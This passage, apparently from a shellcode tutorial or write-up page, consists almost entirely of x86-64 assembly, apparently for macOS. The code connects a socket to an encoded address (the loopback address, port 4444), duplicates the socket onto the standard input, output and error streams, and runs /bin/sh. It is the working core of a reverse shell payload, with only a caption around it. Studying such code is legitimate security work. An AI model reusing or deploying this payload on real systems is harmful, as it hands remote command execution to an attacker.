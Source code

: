 ```armasm
    mov  rsi, 0xfeffff80a3eefdf0
    neg  rsi
    push rsi
    push rsp
    pop  rsi

    ; connect(sockid, &sockaddr, 16)
    mov  rdi, rax
    xor  dl, 0x10
    mov  rax, r8
    mov  al, 0x62
    syscall    

    xor rsi, rsi
    mov sil, 0x3

dup2:
    ; dup2(sockid, 2)
    ;   -> dup2(sockid, 1)
    ;   -> dup2(sockid, 0)
    mov  rax, r8
    mov  al, 0x5a
    sub  sil, 1
    syscall
    test rsi, rsi
    jne  dup2

    ; execve("//bin/sh", 0, 0)
    push rsi
    mov  rdi, 0x68732f6e69622f2f
    push rdi
    push rsp
    pop  rdi
    xor  rdx, rdx
    mov  rax, r8
    mov  al, 0x3b
    syscall
```

{% hint style="success" %}